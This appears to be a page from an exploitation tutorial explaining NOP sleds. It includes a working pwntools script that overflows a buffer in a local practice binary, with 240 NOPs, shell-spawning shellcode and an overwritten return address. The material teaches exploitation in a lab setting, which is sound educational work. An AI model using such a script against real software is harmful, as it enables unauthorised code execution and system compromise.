 ```yaml
---
description: More reliable shellcode exploits
---
```


# NOPs

NOP \(no operation\) instructions do exactly what they sound like: _nothing_. Which makes then very useful for shellcode exploits, because all they will do is run the next instruction. If we pad our exploits on the left with NOPs and point EIP at the middle of them, it'll simply keep doing no instructions until it reaches our actual shellcode. This allows us a greater margin of error as a shift of a few bytes forward or backwards won't really affect it, it'll just run a different number of NOP instructions - which have the same end result of running the shellcode. This padding with NOPs is often called a NOP slide or NOP sled, since the EIP is essentially sliding down them.

In intel x86 assembly, NOP instructions are `\x90`.

{% hint style="info" %}
The NOP instruction actually used to stand for `XCHG EAX, EAX`, which does effectively nothing. You can read a bit more about it [on this StackOverflow question](https://stackoverflow.com/questions/25008772/whats-the-difference-between-the-x86-nop-and-fnop-instructions/25053039).
{% endhint %}

### Updating our Shellcode Exploit

We can make slight changes to our exploit to do two things:

* Add a large number of NOPs on the left
* Adjust our return pointer to point at the middle of the NOPs rather than the buffer start

{% hint style="warning" %}
Make sure ASLR is still disabled. If you have to disable it again, you may have to readjust your previous exploit as the buffer location my be different.
{% endhint %}

```python
from pwn import *

context.binary = ELF('./vuln')

p = process()

payload = b'\x90' * 240                 # The NOPs
payload += asm(shellcraft.sh())         # The shellcode
payload = payload.ljust(312, b'A')      # Padding
payload += p32(0xffffcfb4 + 120)        # Address of the buffer + half nop length

log.info(p.clean())

p.sendline(payload)

p.interactive()
```

{% hint style="warning" %}
It's probably worth mentioning that shellcode with NOPs is not failsafe; if you receive unexpected errors padding with NOPs but the shellcode worked before, try reducing the length of the nopsled as it may be tampering with other things on the stack
{% endhint %}

Note that NOPs are only `\x90` in certain architectures, and if you need others you can use pwntools:

```python
nop = asm(shellcraft.nop())
```

